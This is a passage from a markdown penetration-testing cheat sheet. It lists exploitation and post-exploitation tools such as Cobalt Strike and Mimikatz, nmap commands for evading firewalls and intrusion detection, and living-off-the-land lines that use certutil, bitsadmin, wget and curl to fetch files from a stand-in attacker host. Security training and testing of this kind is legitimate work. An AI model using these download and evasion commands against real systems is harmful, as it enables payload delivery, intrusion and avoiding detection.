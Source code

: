 #### Exploitation Frameworks
- **Metasploit**: Penetration testing framework
- **Cobalt Strike**: Advanced threat emulation
- **Empire**: PowerShell post-exploitation agent
- **Covenant**: .NET command and control framework

#### Post-Exploitation Tools
- **LinPEAS/WinPEAS**: Privilege escalation scripts
- **BloodHound**: Active Directory attack path analysis
- **Mimikatz**: Windows credential extraction
- **PowerView**: PowerShell AD enumeration
- **Impacket**: Python network protocols toolkit

### Advanced Techniques

#### Evasion Techniques
- [ ] **Firewall Evasion**:
  ```bash
  nmap -f <target>  # Fragment packets
  nmap -D RND:10 <target>  # Decoy scan
  nmap --source-port 53 <target>  # Source port manipulation
  ```
- [ ] **IDS/IPS Evasion**:
  ```bash
  nmap -T1 <target>  # Slow scan
  nmap --scan-delay 1s <target>  # Introduce delays
  ```

#### Living Off The Land
- [ ] **Windows LOLBAS**:
  ```cmd
  certutil -urlcache -split -f http://attacker.com/file.exe file.exe
  bitsadmin /transfer job http://attacker.com/file.exe C:\temp\file.exe
  ```
- [ ] **Linux LOLBINS**:
  ```bash
  wget http://attacker.com/file -O /tmp/file
  curl http://attacker.com/file -o /tmp/file
  ```

#### Steganography & Obfuscation
- [ ] **Steganography Tools**:
  - Steghide
  - Stegsolve
  - Binwalk
- [ ] **Code Obfuscation**:
  - PowerShell obfuscation
  - Python obfuscation
  - JavaScript obfuscation

---

## 🚨 Advanced Troubleshooting & Tips
